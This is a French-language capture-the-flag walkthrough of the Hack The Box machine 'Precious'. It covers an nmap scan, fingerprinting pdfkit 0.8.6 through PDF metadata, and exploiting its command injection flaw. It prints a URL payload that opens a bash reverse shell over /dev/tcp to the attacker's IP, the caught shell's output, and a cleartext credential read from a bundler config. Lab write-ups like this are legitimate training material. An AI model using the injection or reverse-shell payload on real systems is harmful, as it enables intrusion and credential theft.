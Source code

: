 # Precious



Reconaissance :&#x20;

```linker-script
nmap 10.10.11.189 -T5 -Pn

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```



En se connectant au serveur http via l'adress ip on tombe sur un DNS non résolu. Il faudra l'ajouter soit dans :&#x20;

* /etc/hosts    => Linux
* /Windows/System32/Drivers/etc/hosts  => Windows &#x20;

```
10.10.11.189  precious.htb
```

Nous arrivons sur la page suivante  :

<figure><img src="../../.gitbook/assets/Capture d’écran 2023-02-17 105939.png" alt=""><figcaption></figcaption></figure>

Afin de fournir une URL au site web il faudra demarrer un serveur Http en local :&#x20;

```powershell
python -m http.server
Serving HTTP on :: port 8000 (http://[::]:8000/) ...
```

En fournissant notre url nous recevrons un fichier .pdf à télécharger.&#x20;

l'analyse des metada du fichiers avec exif tool nous montre qu'il a etait generé avec pdfkit v0.8.6:

<figure><img src="../../.gitbook/assets/metadata_precious (1).png" alt=""><figcaption></figcaption></figure>

En recherchant sur internet on tombe sur une cve critique : [https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

avec un joli exemple d'injection de commande :&#x20;

```
PDFKit.new("http://example.com/?name=#{'%20`sleep 5`'}").to_pdf # 5 seconds wait...
```

utilisons notre plugin chrome "hack-tools" en renseignant l'ip et le port d'ecoute pour notre reverse shell et adaptons notre url :&#x20;

<figure><img src="../../.gitbook/assets/reverse_precisous.png" alt=""><figcaption></figcaption></figure>

Notre url d'injection devient la suivante :&#x20;

```bash
http://10.10.14.213:8000/?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/10.10.14.213/1234 <&1'`'}
```

Ouvrons notre listener netcat  et injectons la commande précedante &#x20;

```
PS C:\Users\Apotheas> ncat -nvlp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.11.189.
Ncat: Connection from 10.10.11.189:51630.
bash: cannot set terminal process group (679): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ whoami
whoami
ruby
bash-5.1$
```

En fouillant avec l'affichage des dossiers caché 'ls -a'  on tombe sur le repertoire suivant  :&#x20;

```bash
/home/ruby/.bundle
bash-5.1$ ls
ls
config
bash-5.1$ cat config
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Surement la clef SSH  !  lets try it  !&#x20;
